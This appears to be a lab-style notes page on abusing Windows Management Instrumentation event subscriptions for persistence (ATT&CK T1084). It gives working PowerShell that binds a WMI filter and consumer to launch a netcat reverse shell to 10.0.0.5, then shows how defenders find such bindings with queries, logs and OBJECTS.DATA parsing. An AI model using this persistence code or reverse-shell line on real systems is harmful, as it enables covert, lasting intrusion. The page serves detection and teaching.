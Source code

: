 ```yaml
---
description: 'Persistence, Privilege Escalation'
---
```


# T1084: Abusing Windows Managent Instrumentation

WMI events are made up of 3 key pieces:

* event filters - conditions that the system will listen for \(i.e on new process created, on new disk added, etc\)
* event consumers - consumers can carry out actions when event filters are triggered \(i.e run a program, log to a log file, execute a script, etc\)
* filter to consumer bindings - the gluing matter that marries event filters and event consumers together in order for the event consumers.

WMI Events can be used by both offenders \(persistence, i.e launch payload when system is booted\) as well as defenders \(kill process evil.exe on its creation\).

## Execution

Creating `WMI __EVENTFILTER`, `WMI __EVENTCONSUMER` and `WMI __FILTERTOCONSUMERBINDING`:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
# WMI __EVENTFILTER
$wmiParams = @{
    ErrorAction = 'Stop'
    NameSpace = 'root\subscription'
}

$wmiParams.Class = '__EventFilter'
$wmiParams.Arguments = @{
    Name = 'evil'
    EventNamespace = 'root\CIMV2'
    QueryLanguage = 'WQL'
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 1200"
}
$filterResult = Set-WmiInstance @wmiParams

# WMI __EVENTCONSUMER
$wmiParams.Class = 'CommandLineEventConsumer'
$wmiParams.Arguments = @{
    Name = 'evil'
    ExecutablePath = "C:\shell.cmd"
}
$consumerResult = Set-WmiInstance @wmiParams

#WMI __FILTERTOCONSUMERBINDING
$wmiParams.Class = '__FilterToConsumerBinding'
$wmiParams.Arguments = @{
    Filter = $filterResult
    Consumer = $consumerResult
}

$bindingResult = Set-WmiInstance @wmiParams
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Note that the `ExecutablePath` property of the `__EVENTCONSUMER` points to a rudimentary netcat reverse shell:

{% code-tabs %}
{% code-tabs-item title="c:\\shell.cmd" %}
```text
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

Note the process ancestry of the shell - as usual, wmi/winrm spawns processes from `WmiPrvSE.exe`:

![](../../.gitbook/assets/wmi-shell-system.png)

On the victim/suspected host, we can see all the regsitered WMI event filters, event consumers and their bindings and inspect them for any malicious intents with these commands:

{% code-tabs %}
{% code-tabs-item title="\_\_EventFilter@victim" %}
```csharp
Get-WmiObject -Class __EventFilter -Namespace root\subscription
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Note the `Query` property which suggests this wmi filter is checking system's uptime every 5 seconds and is checking if the system has been up for at least 1200 seconds:

![](../../.gitbook/assets/wmi-filter.png)

Event consumer, suggesting that the `shell.cmd` will be executed upon invokation as specified in the property `ExecutablePath`:

{% code-tabs %}
{% code-tabs-item title="\_\_EventConsumer@victim" %}
```csharp
Get-WmiObject -Class __EventConsumer -Namespace root\subscription
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/wmi-consumer.png)

{% code-tabs %}
{% code-tabs-item title="\_\_FilterToConsumerBinding@victim" %}
```csharp
Get-WmiObject -Class __FilterToConsumerBinding -Namespace root\subscription
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/wmi-binding.png)

Microsoft-Windows-WMI-Activity/Operational contains logs for event `5861` that capture  event filter and event consumer creations on the victim system:

![](../../.gitbook/assets/wmi-filter-consumer-creation.png)

## Inspection

If you suspect the host to be compromised and you want to inspect any `FilterToConsumer` bindings, you may not want to PSRemote to the machine since the attacker is already at least a local admin on that box since it is required to create bindings.

Try getting the `%SystemRoot%\System32\wbem\Repository\OBJECTS.DATA`

Then you can use [PyWMIPersistenceFinder.py](https://github.com/davidpany/WMI_Forensics) by David Pany to parse the `OBJECTS.DATA` file and get a list of bindings like so:

```bash
./PyWMIPersistenceFinder.py OBJECTS.DATA
```

![](../../.gitbook/assets/wmi-parser.png)

### Strings + Grep

If you are limited to only the native \*nix utils you have to hand, you can get a pretty good insight into the bindings with the following command:

```csharp
strings OBJECTS.DATA | grep -i filtertoconsumerbinding -A 3 --color
```

Below are the results and we can easily see that one binding connects two evils - the evil consumer and the evil filter - see highlighted:

![](../../.gitbook/assets/wmi-strings-grep.png)

Now that you know that you are dealing with `evil` filter and consumer, try  another rudimentary piped command:

```csharp
strings OBJECTS.DATA | grep -i 'evil' -B3 -A2 --color
```

Note how we can get a pretty decent glimpse into the malicious WMI persistence - note the `C:\shell.cmd`and `SELECT * FROM` ... - if you recall, this is what we put in our consumers and filters at the very [beginning](./#execution):

![](../../.gitbook/assets/wmi-strings-grep2.png)

Based on the research by [Matthew Graeber](https://twitter.com/mattifestation) and other great resources listed below: 

{% embed url="https://learn-powershell.net/2013/08/14/powershell-and-events-permanent-wmi-event-subscriptions/" %}

{% embed url="https://www.youtube.com/watch?v=0SjMgnGwpq8" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1084" %}

{% embed url="https://www.darkoperator.com/blog/2013/1/31/introduction-to-wmi-basics-with-powershell-part-1-what-it-is.html" %}

{% embed url="https://pentestarmoury.com/2016/07/13/151/" %}

{% embed url="https://msdn.microsoft.com/en-us/library/aa394084%28v=vs.85%29.aspx?f=255&MSPPError=-2147217396" %}

{% embed url="https://www.eideon.com/2018-03-02-THL03-WMIBackdoors/" %}

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/embedded/aa940177\(v=winembedded.5\)" %}

